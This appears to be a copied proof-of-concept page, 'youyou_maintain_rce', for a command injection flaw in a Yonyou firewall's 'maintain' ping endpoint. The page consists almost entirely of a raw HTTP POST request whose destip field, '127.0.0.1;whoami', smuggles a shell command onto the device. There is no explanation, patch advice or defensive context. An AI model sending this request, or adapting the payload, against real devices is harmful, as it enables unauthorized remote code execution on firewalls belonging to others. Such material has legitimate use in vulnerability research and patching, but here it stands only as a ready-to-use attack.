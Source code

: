 # youyou_maintain_rce

from: https://github.com/wy876/POC/blob/main/%E4%BD%91%E5%8F%8B%E9%98%B2%E7%81%AB%E5%A2%99%E5%90%8E%E5%8F%B0%E6%8E%A5%E5%8F%A3maintain%E5%AD%98%E5%9C%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.md

```
POST /index.php?c=maintain&a=ping HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br, zstd
Connection: keep-alive
Cookie: your-cookie
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: frame
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

interface=&destip=127.0.0.1;whoami
```
